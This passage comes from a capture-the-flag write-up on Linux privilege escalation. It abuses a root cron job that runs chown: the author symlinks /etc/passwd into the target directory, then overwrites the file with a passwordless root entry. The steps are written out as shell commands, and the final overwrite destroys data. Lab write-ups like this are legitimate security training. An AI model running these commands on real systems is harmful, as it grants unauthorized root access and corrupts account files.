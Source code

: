 ![Markdown Logo](/home/d4rk5id3/Documents/cereal/31.png)


after a while i discovered a script which runs by the root user. let's attempt to view the file.

***command***: ```ls -l /usr/share/scripts/chown.sh```
```cat /usr/share/scripts/chown.sh```
![Markdown Logo](/home/d4rk5id3/Documents/cereal/32.png)

![Markdown Logo](/home/d4rk5id3/Documents/cereal/33.png)
it can be seen that we dont have write permission to edit the script. so we cannot write our own commands.

the script is changing the owner of the contents of the file ***public_html*** that resides on the home directory of the user ***rocky***.

we are currently in the apache group so it would give us access to the files located inside the directory. in linux we have something called ***symlink***. it is similar to the shortcuts in windows except that windows use extensions to verify its files. on the other hand, Linux makes use of permissions.


### Exploiting the cron Job
now to exploit this, we would need to change the owner of the symlink which would in some way also change the owner of the linked file.

***command***: ```symlink with group owner```

```apache -> Original file with/without group owner apache but has group write access```

now, luckily the /etc/passwd has the write access for its group.

```ls -l /etc/passwd```

![Markdown Logo](/home/d4rk5id3/Documents/cereal/34.png)

```cat /etc/passwd```

![Markdown Logo](/home/d4rk5id3/Documents/cereal/35.png)

the ***x*** in the ***/etc/passwd*** file is the location where our 'encrypted' password is kept.

so if we removed the ***'x'*** from it, i would successfully remove the authentication from the root user.

now let's start with symlinking ***/etc/passwd*** file to a custom file.

```ln -s /etc/passwd /home/rocky/public_html/passwd```

![Markdown Logo](/home/d4rk5id3/Documents/cereal/36.png)

now with the symlink sucessfully created let's wait for the script to execute.

since the script is executed let's check the owner of the /etc/passwd.

***command***: ```ls -l /etc/passwd```

![Markdown Logo](/home/d4rk5id3/Documents/cereal/37.png)

now, we edit the file.

***command***: ```echo root::0:0:root:/root:/bin/bash > /etc/passwd```


![Markdown Logo](/home/d4rk5id3/Documents/cereal/38.png)
```